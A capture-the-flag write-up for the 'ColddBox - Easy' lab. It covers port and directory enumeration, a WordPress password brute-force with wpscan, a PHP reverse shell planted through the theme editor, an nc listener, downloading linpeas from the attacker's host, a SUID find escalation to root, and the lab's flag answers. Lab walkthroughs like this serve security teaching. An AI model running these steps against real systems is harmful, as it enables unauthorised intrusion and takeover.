 # ColddBox - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.62.181

feroxbuster -u http://10.10.62.181 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

cmseek

wpscan --url http://10.10.62.181/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames C0ldd
#brute-force login for C0ldd user

vim reverse-shell.php

#setup listener for reverse-shell
nc -nvlp 4444
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

cd /tmp

#in attacker machine
python3 -m http.server

#in reverse-shell
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#SUID exploit for find from GTFObins
/usr/bin/find . -exec /bin/sh -p \; -quit

#we have root shell now
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)
  * 4512 - ssh - OpenSSH 7.2p2

* The webpage on port 80 leads us to a blog titled 'ColddBox'; we can start enumerating the web directories simultaneously.

* Using ```cmseek```, we can confirm that the webpage is using WordPress version 4.1.31

* Out of all the directories enumerated, a few pages of interest are /hidden and /wp-login.php

* In /hidden, we get the following message:

```markdown
U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

* From this, we get three possible usernames - C0ldd, Hugo and Philip.

* We can use ```wpscan``` tool and attempt to brute-force login.

* Using brute-force, we get the creds C0ldd:9876543210

* Now, as we have access to the Wordpress dashboard, we can get reverse shell using the Theme Editor.

* Navigating to the Theme Editor, we can edit the 404 page for 'twentyfifteen' theme, and add our PHP reverse-shell code; save the file after editing.

* Setup listener and navigate to <http://10.10.62.181/wp-content/themes/twentyfifteen/404.php> to activate the reverse shell.

* We get shell as 'www-data'; we can now enumerate using 'linpeas'.

* Now, while analyzing Wordpress files in ```/var/www/html/wp-config.php```, linpeas shows the creds c0ldd:cybersecurity

* Also, linpeas shows that the 'find' binary has SUID bit set.

* From GTFObins, we can get the SUID exploit for find - executing it gives us root - now we can get both flags.

```markdown
1. user.txt - RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

2. root.txt - wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```
